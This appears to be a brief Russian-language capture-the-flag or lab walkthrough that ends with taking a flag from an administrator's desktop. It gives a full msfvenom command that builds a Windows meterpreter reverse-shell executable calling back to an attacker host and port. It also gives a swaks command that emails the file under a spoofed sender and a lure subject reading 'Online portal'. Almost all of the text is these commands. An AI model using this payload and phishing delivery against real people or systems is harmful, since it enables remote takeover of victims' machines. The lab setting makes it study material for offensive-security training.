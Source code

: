 создаем екзешник 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=100.100.2.252 LPORT=5566 -f exe -o unl.exe 
```
Запускаем слушатель exploit\multi\handler

Отправляем файл пользователю
```
swaks --h-From: "Site" --from "kali@kali.com" --to james@knight.com -tlso --header "Subject: Онлайн портал  " --body "Здравствуйте" --attach @unl.exe -s 10.10.0.6:587

```
забираем флаг с рабочего стола администратора
